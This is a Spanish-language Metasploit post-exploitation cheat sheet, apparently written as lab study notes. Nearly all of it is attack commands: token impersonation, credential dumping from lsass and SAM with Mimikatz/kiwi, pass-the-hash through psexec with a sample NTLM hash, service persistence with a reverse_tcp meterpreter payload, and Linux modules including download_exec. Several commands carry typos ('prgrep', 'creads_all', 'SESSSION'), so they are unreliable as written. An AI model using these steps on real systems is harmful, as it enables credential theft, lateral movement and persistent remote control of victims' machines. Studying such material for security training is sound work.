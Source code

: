 #### exploit/windows/local/bypassuac_injection

### Suplantación de Token con Incognito

```bash
meterpreter > load incognito # En este punto ya ganamos acceso a la máquina victima
meterpreter > list_tokens -u
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
meterpreter > prgrep explorer.exe
meterpreter > migrate <PID>
```

### Dumping hashes con Mimikatz

```bash
meterpreter > prgrep lsass
meterpreter > migrate <PID>
meterpreter > load kiwi
meterpreter > help
meterpreter > creads_all
meterpreter > lsa_dump_sam
```

### Pass The Hash

```bash
meterpreter > prgrep lsass
meterpreter > migrate <PID>
meterpreter > hashdumps
msf6> search psexec
msf6> use exploit/windows/smb/psexec
msf6> set SMBUser Administrator
msf6> set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```

### Establecer persistencia en Windows

```bash
meterpreter > CTRL + Z # Luego de ganado acceso al sistema
msf6> search platform:windows persistence
msf6> use exploit/windows/local/persistence_service
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set SESSSION 1
msf6> run
```

---

## Modulos de Post explotación en Linux

**IMPORTANTE**: Para poder utilizar estos modulos, es necesario tener una sesinón establecida en la máquina victima.

- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections
- post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history
- post/multi/manage/system_session
- post/linux/manage/download_exec
